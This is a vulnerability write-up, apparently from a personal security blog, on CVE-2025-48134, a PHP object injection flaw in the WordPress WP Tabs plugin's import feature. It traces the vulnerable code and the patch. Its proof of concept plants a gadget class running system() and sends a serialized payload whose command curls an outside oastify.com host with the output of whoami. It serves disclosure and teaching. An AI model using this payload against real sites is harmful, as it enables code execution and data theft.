

# CVE-2025-48134 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Deserialization of Untrusted Data** vulnerability in ShapedPlugin LLC WP Tabs allows **Object Injection**. This issue affects WP Tabs from unspecified versions up to version 2.2.12.

* **CVE ID**: [CVE-2025-48134](https://www.cve.org/CVERecord?id=CVE-2025-48134)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 2.2.12
* **Patched Versions**: 2.2.13
* **CVSS severity**: High (7.2)
* **Required Privilege**: Administrator
* **Product**: [WordPress WP Tabs Plugin](https://wordpress.org/plugins/wp-expand-tabs-free/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **WP Tabs**:

  * `2.2.12` – **vulnerable**
  * `2.2.13` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

**In the vulnerable version (v2.2.12):**

```php {title="class-wp-tabs-import-export.php" data-open=true hl_lines=[]}
$sanitize_value = $this->sanitize_and_collect_metabox_data( $key, maybe_unserialize( str_replace( '{#ID#}', $new_tabs_id, $value ) ) );
```

In this code, the **`maybe_unserialize()`** function is called directly on user data (`$value` after replacing `'{#ID#}'` with `$new_tabs_id`). This creates a critical vulnerability:

* **Object Injection risk**: If an attacker injects a PHP object payload into base64 data, decoding and unserialization will instantiate the malicious object, leading to **Object Injection** and potentially **Remote Code Execution (RCE)**.
* **Lack of safety checks**: No validation is performed before unserializing.
* **No fallback mechanism**: If the data is invalid or corrupted, the system has no alternative handling, making the application exploitable.

**Patch (v2.2.13):**


The patch uses `unserialize` with `'allowed_classes' => false`, completely removing the ability to instantiate objects and fully mitigating the vulnerability.

## Analysis

The plugin registers an AJAX endpoint for logged-in users (`wp_ajax_`):

```php {title="class-wp-tabs.php" data-open=true hl_lines=[]}
$this->loader->add_action( 'wp_ajax_tabs_import_shortcode', $import_export, 'import_shortcode' );
```

Accessing the endpoint `/wp-admin/admin-ajax.php` with `action=tabs_import_shortcode` calls the `import_shortcode` callback:

```php {title="class-wp-tabs-import-export.php" data-open=true hl_lines=[21]}
public function import_shortcode() {
    $nonce = ( ! empty( $_POST['nonce'] ) ) ? sanitize_text_field( wp_unslash( $_POST['nonce'] ) ) : '';
    if ( ! wp_verify_nonce( $nonce, 'wptabspro_options_nonce' ) ) {
        wp_send_json_error( array( 'message' => esc_html__( 'Error: Nonce verification has failed. Please try again.', 'wp-expand-tabs-free' ) ), 401 );
    }
    $allow_tags = isset( $_POST['unSanitize'] ) ? sanitize_text_field( wp_unslash( $_POST['unSanitize'] ) ) : '';
    // Don't worry sanitize after JSON decode below.
    $data         = isset( $_POST['shortcode'] ) ? wp_unslash( $_POST['shortcode'] ) : '';//phpcs:ignore
    $data       = json_decode( $data );
    $data       = json_decode( $data, true );
    $shortcodes = $allow_tags ? $data['shortcode'] : wp_kses_post_deep( $data['shortcode'] );
    if ( ! $data ) {
        wp_send_json_error(
            array(
                'message' => __( 'Nothing to import.', 'wp-expand-tabs-free' ),
            ),
            400
        );
    }

    $status = $this->import( $shortcodes );

    if ( is_wp_error( thing: $status ) ) {
        wp_send_json_error(
            array(
                'message' => $status->get_error_message(),
            ),
            400
        );
    }

    wp_send_json_success( $status, 200 );
}
```

The function checks the nonce; if invalid, it returns an error and stops execution.

Testing the plugin, the **import** feature is found at `/wp-admin/edit.php?post_type=sp_wp_tabs&page=tab_tools#tab=2`.



This feature is restricted to Administrators, so a valid nonce must belong to an Administrator.

The uploaded JSON file is assigned to the `shortcode` parameter in the POST request:

```php
$data       = isset( $_POST['shortcode'] ) ? wp_unslash( $_POST['shortcode'] ) : '';//phpcs:ignore
$data       = json_decode( $data );
$data       = json_decode( $data, true );
```

The plugin decodes JSON twice. In the second call, `associative=true` converts JSON objects into PHP arrays as described:

> [!QUOTE]
> @param $associative: When true, JSON objects will be returned as associative arrays; when false, JSON objects will be returned as objects. When null, JSON objects will be returned as associative arrays or objects depending on whether JSON_OBJECT_AS_ARRAY is set in the flags.

Then `import( $shortcodes )` is called with `$shortcodes` as `$data['shortcode']`. Current JSON upload structure:

```json
{
  "shortcode": {
  }
}
```

```php {title="class-wp-tabs-import-export.php" data-open=true hl_lines=[11]}
public function import( $shortcodes ) {
    $errors = array();
    foreach ( $shortcodes as $index => $shortcode ) {
        $errors[ $index ] = array();
        $new_tabs_id      = 0;
        try {
            ...
            if ( isset( $shortcode['meta'] ) && is_array( $shortcode['meta'] ) ) {
                foreach ( $shortcode['meta'] as $key => $value ) {
                    if ( 'sp_tab_source_options' === $key || 'sp_tab_shortcode_options' === $key ) {
                        $sanitize_value = $this->sanitize_and_collect_metabox_data( $key, maybe_unserialize( str_replace( '{#ID#}', $new_tabs_id, $value ) ) );

                        update_post_meta(
                            $new_tabs_id,
                            $key,
                            $sanitize_value
                        );

                    }
                }
            }
        } catch ( Exception $e ) {
            array_push( $errors[ $index ], $e->getMessage() );
            // If there was a failure somewhere, clean up.
            wp_trash_post( $new_tabs_id );
        }
        ...
    }

    $errors = reset( $errors );
    return isset( $errors[0] ) ? new WP_Error( 'import_tabs_error', $errors[0] ) : $shortcodes;
}
```

The function loops through shortcodes and checks if `shortcode['meta']` exists as an array; if so, it iterates over `$shortcode['meta']`.

```php
$sanitize_value = $this->sanitize_and_collect_metabox_data( $key, maybe_unserialize( str_replace( '{#ID#}', $new_tabs_id, $value ) ) );
```

If the key is `sp_tab_source_options` or `sp_tab_shortcode_options`:

* Replace `{#ID#}` in the value with `$new_tabs_id`
* Call `maybe_unserialize()` to decode serialized data
* Call `sanitize_and_collect_metabox_data()` to sanitize and normalize data
* Finally, store the sanitized value using `update_post_meta()` for post ID `$new_tabs_id`

Thus, the JSON structure to upload is:

```json {data-open=true}
{
  "shortcode": {
    "shortcode1": {
      "meta": {
        "sp_tab_source_options": "serialized_payload"
      }
    }
  }
}
```

## Flow


graph TD

A["Administrator uploads JSON via /wp-admin/admin-ajax.php?action=tabs_import_shortcode"] --> B["import_shortcode() invoked"]

B --> C{"Check nonce: wp_verify_nonce()"}
C -->|Fail| X["Stop & return error: Nonce verification failed"]
C -->|Pass| D["json_decode() twice → extract $shortcodes"]

D -->|Empty/Invalid| Y["Stop & return error: Nothing to import"]
D -->|Valid| E["Call import($shortcodes)"]

E --> F["Loop through each shortcode"]
F --> H{"Has 'meta' and is array?"}
H -->|No| Z["Skip entry"]
H -->|Yes| I["Loop each meta field"]

I --> J{"Key == 'sp_tab_source_options' OR 'sp_tab_shortcode_options'?"}
J -->|No| Z
J -->|Yes| K["Replace {#ID#} with new ID"]

K --> L["maybe_unserialize() ← Vulnerable"]

L --> M{"Does unserialize create object?"}
M -->|Yes| R["Object Injection → Possible RCE if malicious class exists"]
M -->|No| S["Sanitize + update_post_meta() and continue"]



## Proof of Concept (PoC)

1. Create a test class in `wp-config.php`:

```php
class Evil
{
    public $command = "ls /";
    public function __destruct()
    {
        die(system($this->command));
    }
}
```

2. Import JSON file:

```php
{
  "shortcode": {
    "shortcode1": {
      "meta": {
        "sp_tab_source_options": "O:4:\"Evil\":1:{s:7:\"command\";s:75:\"curl http://m7uzxda0q6dtl9sp5pvah7vuilocc30s.oastify.com/?leadked=$(whoami)\";}"
      }
    }
  }
}
```

```HTTP
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: administrator_cookie
...
shortcode=%22%7B%5Cr%5Cn++%5C%22shortcode%5C%22%3A+%7B%5Cr%5Cn++++%5C%22shortcode1%5C%22%3A+%7B%5Cr%5Cn++++++%5C%22meta%5C%22%3A+%7B%5Cr%5Cn++++++++%5C%22sp_tab_source_options%5C%22%3A+%5C%22O%3A4%3A%5C%5C%5C%22Evil%5C%5C%5C%22%3A1%3A%7Bs%3A7%3A%5C%5C%5C%22command%5C%5C%5C%22%3Bs%3A75%3A%5C%5C%5C%22curl+http%3A%2F%2Fm7uzxda0q6dtl9sp5pvah7vuilocc30s.oastify.com%2F%3Fleadked%3D%24(whoami)%5C%5C%5C%22%3B%7D%5C%22%5Cr%5Cn++++++%7D%5Cr%5Cn++++%7D%5Cr%5Cn++%7D%5Cr%5Cn%7D%22&action=tabs_import_shortcode&nonce=b6d5e5977d&unSanitize=
```


# Conclusion

CVE-2025-48134 originates from insecure deserialization through `maybe_unserialize()` during import, allowing **PHP Object Injection** and possible RCE if a malicious class exists. Even though Administrator privileges and a valid nonce are required, the impact is still critical. Version 2.2.13 fixes this by preventing arbitrary object creation during unserialization.

# Key Takeaways

* Root cause: uncontrolled deserialization of input
* Impact: Object Injection and Remote Code Execution
* Administrator privileges required for exploitation
* Never unserialize user input without restricting classes or applying safe validation

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress WP Tabs Plugin <= 2.2.12 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/wp-expand-tabs-free/vulnerability/wordpress-wp-tabs-2-2-11-php-object-injection-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-24-cve-2025-48134/  

